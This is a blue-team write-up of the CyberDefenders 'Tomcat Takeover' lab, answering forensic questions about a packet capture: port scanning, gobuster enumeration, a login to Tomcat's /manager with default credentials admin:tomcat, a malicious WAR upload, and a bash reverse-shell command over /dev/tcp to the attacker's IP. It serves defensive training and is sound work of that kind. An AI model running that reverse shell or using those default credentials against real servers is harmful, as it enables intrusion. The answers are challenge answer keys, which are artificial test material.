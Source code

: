 # Tomcat Takeover Blue Team Lab

[Tomcat Takeover | Blue team challenge.](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)

---

## 1. Identify the source IP address responsible for initiating the suspicious requests on our server.

- Reviewing Conversations from the Statistics tab in Wireshark shows IP `14.0.0.120` generating a lot of traffic.  
  Data is transmitted from IP `10.0.0.112` which appears to be our web server.  
  ![Traffic Conversation](./img/Tomcat-Takeover-1-1.png)

- Adding a column for destination port, sorting and filtering TCP packets shows `14.0.0.120` sending many requests with different destination ports, indicating port scanning.  
  ![Port Scanning](./img/Tomcat-Takeover-1-2.png)

- **Answer:** `14.0.0.120`

---

## 2. From which city did the attacker’s activities originate?

- Using IP geolocation services like [IP Location Lookup](https://www.iplocation.net/ip-lookup).  
- **Answer:** Guangzhou  
  ![City Lookup](./img/Tomcat-Takeover-2-1.png)

---

## 3. Which port provides access to the web server admin panel?

- Filtering HTTP traffic, reviewing server response reveals the server name `Apache-Coyote` (Apache Tomcat).  
  ![Server Name](./img/Tomcat-Takeover-3-1.png)  
  ![Apache Tomcat](./img/Tomcat-Takeover-3-2.png)

- Default admin panel port for Tomcat is **8080**.  
  ![Port 8080](./img/Tomcat-Takeover-3-3.png)

- **Answer:** `8080`

---

## 4. Which tools did the attacker use for enumerating directories and files on the web server?

- Adding user-agent column, search reveals the tool used for enumeration.  
  ![User-Agent Gobuster](./img/Tomcat-Takeover-4-1.png)

- **Answer:** `gobuster`

---

## 5. Which admin panel directory was uncovered by the attacker?

- Searching HTTP packets for Authentication fields points to the directory requiring credentials.  
  ![Authentication Directory](./img/Tomcat-Takeover-5-1.png)

- **Answer:** `/manager`

---

## 6. What username and password did the attacker successfully use for authorization?

- Open any packet filtered with Authentication field to find credentials.  
  ![Credentials](./img/Tomcat-Takeover-6-1.png)

- **Answer:** `admin:tomcat`

---

## 7. What is the name of the malicious file uploaded by the attacker?

- Searching HTTP POST packets reveals only one relevant packet.  
  ![Uploaded File](./img/Tomcat-Takeover-7-1.png)

- **Answer:** `JXQOZY.war`  
  ![File Name](./img/Tomcat-Takeover-7-2.png)

---

## 8. What command was scheduled to maintain persistence on the compromised server?

- Following the TCP stream of the POST packet shows the command.  
  ![Reverse Shell Command](./img/Tomcat-Takeover-8-1.png)

- **Answer:**  
  ```bash
  /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
  ```
  ![Reverse Shell Command](./img/Tomcat-Takeover-8-2.png)